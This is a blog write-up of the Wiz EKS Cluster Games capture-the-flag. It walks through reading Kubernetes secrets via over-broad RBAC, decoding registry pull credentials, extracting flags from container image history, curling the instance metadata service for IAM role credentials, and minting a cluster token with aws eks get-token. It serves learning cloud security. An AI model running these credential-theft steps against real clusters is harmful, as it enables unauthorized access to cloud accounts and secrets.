





Time for a weekend CTF! Came across this while going through one of my [newsletter subscriptions](https://tldrsec.com/p/tldr-sec-207).

## Challenge 1
This is a simple introduction to security vulns within kubernetes RBAC permissions. 


Here are the permissions we are given for this challenge.
```json
{
    "secrets": [
        "get",
        "list"
    ]
}
```

Its a [well documented ](https://kubernetes.io/docs/reference/access-authn-authz/authorization/#determine-the-request-verb)point that even providing the `list` permission grants access to the secret contents. Check [this](https://www.antitree.com/2020/11/when-list-is-a-lie-in-kubernetes/) blog post for more info.

For this challenge however, all I had to do was decrypt the single secret present in the namespace:
```shell
root@wiz-eks-challenge:~# kubectl get secret log-rotate -o go-template='{{.data.flag|base64decode}}'
wiz_eks_challenge{omg_over_privileged_secret_access}
```
## Challenge 2


Permissions provided:
```json
{
    "secrets": [
        "get"
    ],
    "pods": [
        "list",
        "get"
    ]
}
```
Based on our permissions, lets first get the list of pods in our namespace:
```shell 
root@wiz-eks-challenge:~# kubectl get pods
NAME                    READY   STATUS    RESTARTS   AGE
database-pod-2c9b3a4e   1/1     Running   0          8d
```
On checking the manifest of the running pod, I observed that it was using an `imagePullSecret` for authentication with the registry.
```yaml
...
  containers:
    - image: eksclustergames/base_ext_image
      imagePullPolicy: Always
      name: my-container
      resources: {}
      terminationMessagePath: /dev/termination-log
      terminationMessagePolicy: File
      volumeMounts:
      - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
        name: kube-api-access-cq4m2
        readOnly: true
    dnsPolicy: ClusterFirst
    enableServiceLinks: true
    imagePullSecrets:
    - name: registry-pull-secrets-780bab1d
...
```
So, I then decrypted the secret to get the credentials. Since I only have list permission, I have to explicitly provide the secret name while I `get` the contents.
```shell 
root@wiz-eks-challenge:~# kubectl get secret registry-pull-secrets-780bab1d -o go-template='{{index .data ".dockerconfigjson"|base64decode}}'; echo
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcG<SNIP>LVI4NW1HN200bHI0NWlZUWo4RnVDbw=="}}}
```
Decrypting the`auth` field gives us the registry credentials.
```shell
root@wiz-eks-challenge:~# echo "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcG<SNIP>LVI4NW1HN200bHI0NWlZUWo4RnVDbw==" | base64 -d ; echo
eksclustergames:dckr_<SNIP>Qj8FuCo
```
Now, we can to login with the above credentials to the registry. This is where the tool mentioned in the question comes into picture. I don't know about `crane` so I subbed it with `skopeo` on my device, which has the same functionality.
```shell
❯❯❯ skopeo login docker.io
Username: eksclustergames
Password:
Login Succeeded!

❯❯❯ skopeo list-tags docker://docker.io/eksclustergames/base_ext_image
{
    "Repository": "docker.io/eksclustergames/base_ext_image",
    "Tags": [
        "latest"
    ]
}
```

Now, I thought the flag might be within the image itself. So I tried to pull the image contents into a directory:
```shell
❯❯❯ skopeo copy docker://docker.io/eksclustergames/base_ext_image:latest dir:base_ext_image
```
after browsing through the manifest file, I got to know the config file name and skimmed through it.
There, I found the flag in one of the history entries of the layers!


## Challenge 3


This took a short time for me since I already knew about the attack vectors from practicing on [flAWS2.cloud](http://flaws2.cloud/)'s attacker path. I got the hint from the question: `Remember: You are running inside a compromised EKS pod`. This means that the pod may have access to the IMDS (Instance Metadata Service) of the instance it is running on. 

It works! I then obtained the instance role credentials from the IMDS and exported it into the pod as environment variables 
```shell
root@wiz-eks-challenge:~# curl 169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole
{"AccessKeyId":"ASIA2<SNIP>A22HDHQ","Expiration":"2023-11-10 10:48:46+00:00","SecretAccessKey":"DyneBi<SNIP>nmGxNXR/ZCriRz","SessionToken":"FwoGZXIvYXdzEMP//////////wEaDG/Bhy53jX6MsUb72iK3AUKiCkFlw7SmLSXSOS2d6nNvjnOLTgaNSA+LoYbmj1ZmicffRgmwgEhHm/3ZbY<SNIP>f3VA6gI+WxPwslW/xvnlxJPQmwj9dv6HzOGAJKBbYZHgHU+xKaTCr4TtuL3Dd3gAYs4<SNIP>jqnz4u7coJwyLntSxjpM60dXr7cAE7/u/3nFp1QYK+E81b"}

root@wiz-eks-challenge:~# from the above output
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey> 
export AWS_SESSION_TOKEN=<SessionToken>
```

I did some yak-shaving and learned about using crane from [here](https://github.com/google/go-containerregistry/blob/main/cmd/crane/doc/crane.md). The next thing I had to do was to login to the registry and download the image as a tarball. The registry URL was obtained from the pod spec.
```shell
root@wiz-eks-challenge:~# aws ecr get-login-password | crane auth login --username AWS --password-stdin 688655246681.dkr.ecr.us-west-1.amazonaws.com
logged in via /home/user/.docker/config.json

root@wiz-eks-challenge:~# crane pull 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c:374f28d8-container container.tar

root@wiz-eks-challenge:~# tar -xvf container.tar
sha256:575a75bed1bdcf83fba40e82c30a7eec7bc758645830332a38cef238cd4cf0f3
3f4d90098f5b5a6f6a76e9d217da85aa39b2081e30fa1f7d287138d6e7bf0ad7.tar.gz
e7310b04c944c3e0bbb9ebc04b885dc7ad937061e0dc77c73449ef133eab4fd9.tar.gz
manifest.json
```
similar to [Challenge 2](#challenge-2), the flag was in the history entries


## Challenge 4



This one was tough. I went into far too many rabbit holes🐰. Finally gave up and looked at [other](http://sontek.net/blog/2023/eks_cluster_games_ctf) [write-ups](https://youtu.be/m2SGARomWTk?si=3qEdG93T3E6ZU77m&t=1369).

I didn't know about `aws eks get-token` command. It apparently give a token based on the IAM role we are using when running the command.
```shell
root@wiz-eks-challenge:~# aws eks get-token --cluster-name eks-challenge-cluster
{
    "kind": "ExecCredential",
    "apiVersion": "client.authentication.k8s.io/v1beta1",
    "spec": {},
    "status": {
        "expirationTimestamp": "2023-11-10T12:25:06Z",
        "token": "k8s-aws-v1.aHR0cHM6Ly9zdHMudXMtd2VzdC0xLmFtYXpvbmF3cy5jb20vP0FjdGlvbj1HZXRDYWxsZXJJZGVudGl0eSZWZXJzaW9uPT<SNIP>ViQVVWbEhxUCUyRmJjSDhhQVlrd3BJa29PQTNoZE9wR3YzOFRKY05VS0gwQXlpWHU3aXFCakl0ZnZHdTJKcTJ3c2pFdUkzWWMlMkJwTjJiSEhOTWlNVjVqZk1pdEMlMkI2eWJxUGVMQXhVS25KRVo4cEJCRVR5USZYLUFtei1TaWduYXR1cmU9MmRhMjVhOTFjYzU2YjJmNTIwZDQ5YmE4YWMzNmI4ZDE4YWU0YTMxNjllZTkzZGI5MzhiMDNjYTUxNjlkMWNlNA"
    }
}
```
Now, using this token, I can connect to the cluster with the `--token` flag
```shell
root@wiz-eks-challenge:~# kubectl --token="$TOKEN" auth can-i --list
warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs   Resource Names     Verbs
serviceaccounts/token                           []                  [debug-sa]         [create]
selfsubjectaccessreviews.authorization.k8s.io   []                  []                 [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []                 [create]
pods                                            []                  []                 [get list]
secrets                                         []                  []                 [get list]
serviceaccounts                                 []                  []                 [get list]
                                                [/api/*]            []                 [get]
...
```
The flag was inside a secret which we now have access to view
```shell
root@wiz-eks-challenge:~# kubectl --token="$TOKEN" get secrets node-flag -o=go-template='{{.data.flag|base64decode}}'; echo
wiz_eks_challenge{only_a_real_pro_can_navigate_IMDS_to_EKS_congrats}
```

## Conclusion
Overall a very fun CTF. Learned a lot through this. There is a final challenge which I have skipped in this blog post. Look forward to more stuff in the future!
